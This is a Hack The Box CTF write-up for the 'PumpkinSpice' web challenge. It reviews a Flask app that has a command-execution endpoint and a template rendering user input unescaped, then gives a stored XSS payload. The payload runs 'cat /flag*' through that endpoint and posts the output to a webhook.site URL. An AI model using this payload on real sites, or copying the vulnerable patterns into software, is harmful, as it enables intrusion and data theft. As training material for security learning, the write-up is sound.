 ```yaml
---
title: PumpkinSpice - Hack The Box
date: 2024-12-31
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# PumpkinSpice

![PumpkinSpice - Thumbnail](/ctf/hack-the-box/challenges/web/pumpkin-spice/thumbnail.svg){style="width: 100%; max-width:
400px; display: block; margin: 0 auto;"}

## Challenge Description

In the realm of cyberspace, a hacker collective known as the "Phantom Pumpkin Patch" has unearthed a sinister
Halloween-themed website, guarded by a devious vulnerability. As the moon casts an ominous glow, get ready to exploit
this spectral weakness

## Challenge Overview

This challenge presents a web application called **Pumpkin Spice**, where users can input their address to "receive a
free treat." The application has multiple endpoints for interacting with the server. Our goal is to exploit
vulnerabilities in the application to retrieve the flag.

![PumpkinSpice - Overview](/ctf/hack-the-box/challenges/web/pumpkin-spice/overview.png)

## Code review

The application uses **Flask** as its backend framework. The backend code is straightforward and is contained in a
single file, `app.py`.

```python
import subprocess
import time
from threading import Thread

from flask import Flask, request, render_template

app = Flask(__name__)

addresses = []


def start_bot():
    from selenium import webdriver
    from selenium.webdriver.chrome.options import Options
    from selenium.webdriver.chrome.service import Service

    host, port = "localhost", 1337
    HOST = f"http://{host}:{port}"

    options = Options()

    options.add_argument("--headless")
    options.add_argument("--no-sandbox")
    options.add_argument("--disable-dev-shm-usage")
    options.add_argument("--disable-infobars")
    options.add_argument("--disable-background-networking")
    options.add_argument("--disable-default-apps")
    options.add_argument("--disable-extensions")
    options.add_argument("--disable-gpu")
    options.add_argument("--disable-sync")
    options.add_argument("--disable-translate")
    options.add_argument("--hide-scrollbars")
    options.add_argument("--metrics-recording-only")
    options.add_argument("--mute-audio")
    options.add_argument("--no-first-run")
    options.add_argument("--dns-prefetch-disable")
    options.add_argument("--safebrowsing-disable-auto-update")
    options.add_argument("--media-cache-size=1")
    options.add_argument("--disk-cache-size=1")
    options.add_argument("--user-agent=HTB/1.0")

    service = Service(executable_path="/usr/bin/chromedriver")
    browser = webdriver.Chrome(service=service, options=options)

    browser.get(f"{HOST}/addresses")
    time.sleep(5)
    browser.quit()


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html")


@app.route("/addresses", methods=["GET"])
def all_addresses():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    return render_template("addresses.html", addresses=addresses)


@app.route("/add/address", methods=["POST"])
def add_address():
    address = request.form.get("address")

    if not address:
        return render_template("index.html", message="No address provided")

    addresses.append(address)
    Thread(target=start_bot, ).start()
    return render_template("index.html", message="Address registered")


@app.route("/api/stats", methods=["GET"])
def stats():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    command = request.args.get("command")
    if not command:
        return render_template("index.html", message="No command provided")

    results = subprocess.check_output(command, shell=True, universal_newlines=True)
    return results


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

The website has 4 endpoints:

- `/` - The main page where we can input our address
- `/addresses` - The page where we can see all the addresses that have been inputted
- `/add/address` - The endpoint to add an address
- `/api/stats` - The endpoint to run a command

The vulnerability is in the `/api/stats` endpoint. This endpoint allows us to run a command on the server. The command
is passed as a query parameter `command`. The command is executed using the `subprocess.check_output` function. This
function is used to run a command and return its output. But the `/api/stats` endpoint is only accessible from
localhost.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="author" content="lean">
    <title>🎃 Pumpkin Spice 🎃</title>
</head>
<body>
<h1>System stats:</h1>
<p id="stats"></p>
<h1>Addresses:</h1>
{% for address in addresses %}
<p>{{ address|safe }}</p>
{% endfor %}
<script src="/static/js/script.js"></script>
</body>
</html>
```

The HTML code above is the `addresses.html` file. This file is used to display all the addresses that have been inputted
by the user. The addresses are displayed using a for loop. The `address|safe` filter is used to tell **Jinja** that the
address is safe and should not be escaped. That means that the content of the address variable will be rendered exactly
as it is, without additional HTML escaping. This allows any HTML or JavaScript included in the address to be displayed
or executed directly in the browser.

This is a classic example of a **Cross-Site Scripting (XSS)** vulnerability. An attacker can input a malicious script
as an address, and when the address is displayed on the page, the script will be executed in the context of the user's
browser.

## Exploitation - XSS

To exploit this vulnerability, we need to input a malicious script as an address. The script will be executed when the
address is displayed on the page. We can use a script that sends a request to the `/api/stats` endpoint with a command
to read the flag file. And them send the output to a `webhook.site` endpoint.

```html

<script>
    fetch("/api/stats?command=cat+/flag*")
        .then(async data => {
            fetch("https://webhook.site/your-webhook-id", {
                method: "POST",
                body: await data.text(),
            })
        })
</script>
```

After inputting the script as an address, we can see the flag in the `webhook.site` endpoint.

![PumpkinSpice - Flag](/ctf/hack-the-box/challenges/web/pumpkin-spice/flag.png)

We've successfully exploited the vulnerability and retrieved the flag.

<ChallengeCard
    challengeType="web"
    challengeName="PumpkinSpice"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/625"
/>

## References

- [Webhook.site](https://webhook.site)
